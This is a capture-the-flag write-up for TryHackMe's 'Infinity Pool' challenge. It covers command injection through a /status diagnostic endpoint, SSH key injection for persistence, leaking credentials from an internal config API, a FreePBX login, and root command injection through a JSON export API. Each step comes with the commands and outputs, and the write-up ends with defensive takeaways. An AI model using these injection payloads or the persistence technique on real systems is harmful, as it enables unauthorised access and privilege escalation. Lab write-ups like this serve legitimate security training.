






# 🏨 Hacker Holidays Day 11 – Infinity Pool (TryHackMe Write-up)

<p align="center">


</p>

---

## 🧭 Overview

This challenge demonstrates a **multi-stage attack chain** involving:

* 🔍 Source code disclosure
* 💉 Command Injection
* 🔑 SSH persistence
* 🌐 Internal service enumeration
* 🔓 Credential exposure
* ⚠️ Vulnerability exploitation (FreePBX CVE)
* 🧨 Root command execution via insecure API

---

## 📊 Challenge Information

| Attribute  | Details                                |
| ---------- | -------------------------------------- |
| Platform   | TryHackMe                              |
| Challenge  | Hacker Holidays Day 11 – Infinity Pool |
| Difficulty | Medium                                 |
| Category   | Boot2Root                              |

---

## 🛎️ Initial Reconnaissance

We begin by inspecting the web application source code.

```javascript
// Byte Lotus front-end bootstrap.
// TODO(ops): the staff connectivity tool at /status posts to the legacy
// /internal/netcheck handler. Keep it out of the public nav until the new
// auth gateway ships. Disallowed in robots.txt for now.
console.log("Stay Noticed™");
```

📌 **Key Finding:**

* Hidden endpoint: `/status`
* Internal handler: `/internal/netcheck`
* Indicates **restricted functionality exposed unintentionally**

---

## 💉 Exploitation – Command Injection

Accessing `/status` reveals a network diagnostic feature.

```
http://10.129.185.222/status
```

Testing input:

```bash
127.0.0.1;id
```

📌 **Output:**

```
uid=1001(web) gid=1001(web)
```


### 🔍 Root Cause

The application likely executes user input in a system call similar to:

```bash
ping <user_input>
```

Due to lack of sanitisation, shell metacharacters (`;`) allow arbitrary command execution.

---

## 📁 User Enumeration & Flag Access

```bash
127.0.0.1;ls /home/web
```

📌 Output:

```
user.txt
```

📸 *Screenshot:*


Retrieve user flag:

```bash
127.0.0.1;cat /home/web/user.txt
```

---

## 🔑 Persistence – SSH Key Injection

Generate SSH key:

```bash
ssh-keygen -t rsa -b 2048 -f ./ctf_key -N ""
base64 -w0 ctf_key.pub
```

Inject into target:

```bash
127.0.0.1;mkdir -p /home/web/.ssh;echo <BASE64_KEY>|base64 -d > /home/web/.ssh/authorized_keys;chmod 700 /home/web/.ssh;chmod 600 /home/web/.ssh/authorized_keys;#
```
📸 *Screenshot:*


📌 **Impact:**

* Persistent access without password
* Bypasses web layer entirely

---

## 🖥️ Initial Foothold

```bash
ssh -o IdentitiesOnly=yes -i ctf_key web@10.129.185.222
```
📸 *Screenshot:*


---

## 🔍 Internal Enumeration

### 🧠 Process & Services

```bash
ps auxww
```

Systemd service identified:

```bash
cat /etc/systemd/system/cc-automation.service
```

📌 Key Observations:

* Runs as **root**
* Internal service on `127.0.0.1:9000`
* Uses **Gunicorn (Python app)**

---

## 🌐 Internal API Discovery

```bash
curl -sS http://127.0.0.1:9000/health
```

📌 Response:

```json
{
  "endpoints": {
    "POST /jobs/export": {
      "auth": "Authorization: Bearer <automation key>"
    }
  },
  "runs_as": "root"
}
```

🚨 **Critical Insight:**

* API executes jobs as **root**
* Requires bearer token

---

## 🛰️ Secondary Service – Watchtower

```bash
curl -sS http://127.0.0.1:3000/api/config
```

📌 Extracted credentials:

```
Username: FreePBXUCPTemplateCreator
Password: St4yN0t1c3d_2026
```

---

## ⚠️ Vulnerability – FreePBX (CVE-2026-46376)

* Default credentials not rotated
* Affects versions:

  * 15.0.42 → 16.0.45
  * 17.0.7

Version confirmation:

```bash
grep -i version /var/www/html/admin/modules/ucp/module.xml
```

---

## 🔗 Port Forwarding

```bash
ssh -i ctf_key -L 8080:127.0.0.1:8080 web@10.129.185.222
```

Access:

```
http://127.0.0.1:8080/ucp
```

Login using discovered credentials.

📸 *Screenshot:*



---

## 🔐 Automation Key Extraction

From dashboard widget:

```
Automation Key: cc_auto_7b3f9a1c4e0d2f6a
```

📸 *Screenshot:*

---

## 🧨 Root Exploitation – Command Injection (API)

### Normal Request

```bash
curl -X POST http://127.0.0.1:9000/jobs/export \
-H 'Authorization: Bearer <KEY>' \
--data '{"report":"latest"}'
```

### 🔥 Injection Payload

```bash
{"report":"test;id;#"}
```

📌 Output:

```
uid=0(root)
```

### 🔍 Root Cause

Backend constructs command:

```bash
tar czf /var/automation/exports/<report>.tgz ...
```

User input is directly embedded → **Command Injection**

---

## 📂 Root Enumeration

```bash
{"report":"test;ls /root;#"}
```

📌 Output:

```
root.txt
```

---

## 🚩 Root Flag Extraction

```bash
{"report":"test;head -c6 /root/root.txt;#"}
```

📌 Output:

```
THM{...
```
📸 *Screenshot:*


---

## 🔗 Attack Flow Summary

```mermaid
graph TD
A[Source Code Review] --> B[/status Endpoint]
B --> C[Command Injection]
C --> D[User Flag Access]
D --> E[SSH Key Injection]
E --> F[Shell Access]
F --> G[Internal Service Discovery]
G --> H[Watchtower Config Leak]
H --> I[FreePBX Credentials]
I --> J[Port Forward + Login]
J --> K[Automation Key Extraction]
K --> L[Root API Injection]
L --> M[Root Flag]
```

---

## 🧠 Key Takeaways

### 🔴 Security Failures

* Unsanitised user input → **Command Injection**
* Sensitive endpoints exposed (`/status`)
* Default credentials not rotated
* Internal services trust loopback blindly
* Root-level services exposed via API

### 🟢 Defensive Measures

* Input validation & escaping
* Remove internal endpoints from public access
* Enforce credential rotation
* Principle of least privilege
* Secure API design (avoid shell execution)

---

## 🎯 Conclusion

This challenge highlights how **chained misconfigurations** can lead to full system compromise:

> Small issues (debug endpoints, default creds) → Full root access

A strong reminder that **security is only as strong as its weakest link**.

---

🏁 *Try it yourself and capture the flags!*
